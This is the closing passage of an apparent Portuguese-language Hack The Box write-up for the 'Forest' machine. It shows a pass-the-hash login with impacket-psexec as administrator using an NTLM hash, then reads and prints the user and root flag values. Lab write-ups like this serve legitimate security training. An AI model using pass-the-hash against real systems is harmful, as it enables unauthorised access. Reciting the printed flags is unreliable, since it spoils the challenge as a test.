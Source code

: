 Faremos um ataque PTH com PsExec:

`impacket-psexec [administrator@10.10.10.161](mailto:administrator@10.10.10.161) -hashes :32693b11e6aa90eb43d32c72a07ceea6`

![Untitled](../assets/img/HTB/HTB-Forest/Untitled%203.png)

# HABEMUS ROOT!!!



# Pegando a FLAG

`type C:\Users\svc-alfresco\Desktop\user.txt`

***8e0dc27733441c9e2ea809f3fd54c3f6***

`type C:\Users\Administrator\Desktop\root.txt`

***23157b04ca6de51181cce1533a572315***

